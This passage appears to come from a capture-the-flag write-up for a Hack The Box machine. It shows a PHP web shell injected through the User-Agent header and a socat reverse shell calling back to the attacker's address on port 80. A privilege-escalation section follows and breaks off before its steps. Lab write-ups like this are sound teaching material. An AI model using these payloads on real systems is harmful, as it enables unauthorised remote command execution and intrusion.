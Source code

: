 ```
GET / HTTP/1.1
Host: www.nestedflanders.htb
User-Agent: <style type='text/css'>body { background-color: black; } #endgame { background-color: white; color: black; }</style><div id='endgame'><pre><?php echo shell_exec($_GET[0]); ?></pre></div>
```


{% include image.html image_alt="9be25949.png" image_src="/b3c66ec8-3480-4340-af69-0fd4aba980e9/9be25949.png" %}


Yes, I can execute remote commands.

...

Next, we'll get that reverse shell.


{% include image.html image_alt="1f8e4b9f.png" image_src="/b3c66ec8-3480-4340-af69-0fd4aba980e9/1f8e4b9f.png" %}


Guess what, `socat` is available.

_Firewall rules: only egress traffic to 80/tcp and 443/tcp is allowed._


{% include image.html image_alt="fe618dc8.png" image_src="/b3c66ec8-3480-4340-af69-0fd4aba980e9/fe618dc8.png" %}


_On my attacking machine_

```
# socat file:`tty`,raw,echo=0 tcp-listen:80
```

_On the browser address bar (need to urlencode)_

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.12.61:80
```


{% include image.html image_alt="fa385a7d.png" image_src="/b3c66ec8-3480-4340-af69-0fd4aba980e9/fa385a7d.png" %}


## Privilege Escalation

During enumeration of `www-data`'s account, I notice something weird. All the `tmpfs` are mapped with `nosuid`, `nodev`, and `noexec` options, which means that I can't execute anything on those mounted volumes, except for:

```
/var/cache/apache2/mod_cache_disk
```

Long story short, the rows in the `config` table appears to be a backup of Joomla's `configuration.php`, again, except for `checkrelease`. The files listed there are executed and restored every minute on the minute without fail, even if you change it to something else. Combining the two observations, I was able to get another shell as
`guly` by completing the following within a minute:


[1]: https://www.hackthebox.eu/home/machines/profile/184
[2]: https://www.hackthebox.eu/home/users/profile/8292
[3]: https://www.hackthebox.eu/
